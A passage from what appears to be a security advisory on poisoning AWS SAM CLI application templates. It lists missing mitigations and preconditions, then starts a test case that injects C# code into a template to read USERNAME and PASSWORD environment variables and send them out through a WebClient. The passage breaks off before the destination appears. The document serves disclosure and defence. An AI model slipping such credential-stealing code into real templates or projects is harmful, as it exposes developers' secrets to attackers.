 * **Currently Implemented Mitigations:**
    Currently, there are no specific code-level mitigations implemented within the project itself to prevent template poisoning. Mitigation relies on general GitHub security features and AWS security practices to prevent unauthorized modifications to the repository.
* **Missing Mitigations:**
    - **Code Signing and Verification:** Implement a robust mechanism to digitally sign templates upon release and have SAM CLI strictly verify these signatures before using any template from the official repository. This ensures template integrity and authenticity.
    - **Content Security Policy (CSP) for Templates:** If templates use dynamic content rendering, enforce a strict Content Security Policy to limit the capabilities of rendered content and mitigate potential cross-site scripting (XSS) style attacks within templates.
    - **Sandboxing or Isolation:**  Sandbox the template initialization process, especially when using official templates, to contain potential damage from any undetected malicious code. Run template rendering and initial build steps in isolated containers or virtual machines.
    - **Dependency Checks:** Implement automated checks for dependencies fetched by official templates (e.g., npm, pip, maven dependencies) to proactively identify and block known malicious packages before they are integrated into user projects.
    - **Regular Security Audits:** Conduct frequent, in-depth security audits of all official templates to proactively identify and remove any injected malicious code or latent vulnerabilities that might be present.
    - **User Education and Awareness:** Provide clear and prominent warnings to users about the inherent risks of using code templates, even from official sources. Educate users on best practices for verifying template contents and monitoring for suspicious activity after project initialization.
    - **Repository Access Control and Monitoring:** Enforce strict access control policies for the official template repository, utilizing multi-factor authentication and the principle of least privilege. Implement comprehensive monitoring and logging of repository activities to detect and respond to unauthorized modifications promptly.
* **Preconditions:**
    - Attacker successfully gains write access to the official AWS SAM CLI Application Templates repository or achieves a Man-in-the-Middle (MITM) position to inject modified template manifests or templates during download.
    - User executes `sam init` command and uses a compromised template, either directly by selecting a poisoned template or indirectly by using a default template that has been poisoned.
    - User's development environment is susceptible to the injected malicious code (e.g., lacks robust security controls, uses vulnerable dependencies, runs with elevated privileges).
* **Source Code Analysis:**
    The provided files are primarily documentation and example templates, and they do not contain code that directly introduces new vulnerabilities beyond the inherent risk of template poisoning. The vulnerability exists in the potential compromise of the template repository itself, which is external to the application code files provided. The risk is amplified by the fact that templates can include code in various programming languages and configuration files, allowing for diverse attack vectors within initialized projects.

    The vulnerability is not within the application code of the templates themselves, but in the infrastructure and processes surrounding the distribution and usage of these templates within the SAM CLI ecosystem. The lack of template signing and verification within SAM CLI, combined with the potential for repository compromise, creates a critical security gap.

* **Security Test Case:**
    1. **Attacker Setup (Simulated Repository Compromise):**
        - **Fork the `aws-sam-cli-app-templates` repository to your own GitHub account.** This simulates gaining control over a template source.
        - **Clone your forked repository locally.**
    2. **Template Poisoning:**
        - **Navigate to a template directory (e.g., `dotnet8/hello`).**
        - **Modify a template file to include malicious code.** For example, modify `dotnet8/hello/{{cookiecutter.project_name}}/src/HelloWorld/Function.cs` to include code that attempts to exfiltrate environment variables to a simulated attacker server.
        ```csharp
        // Injected malicious code example (for demonstration only, not functional C# exfiltration code):
        string username = Environment.GetEnvironmentVariable("USERNAME");
        string password = Environment.GetEnvironmentVariable("PASSWORD");
        try {
            System.Net.WebClient client = new System.Net.WebClient();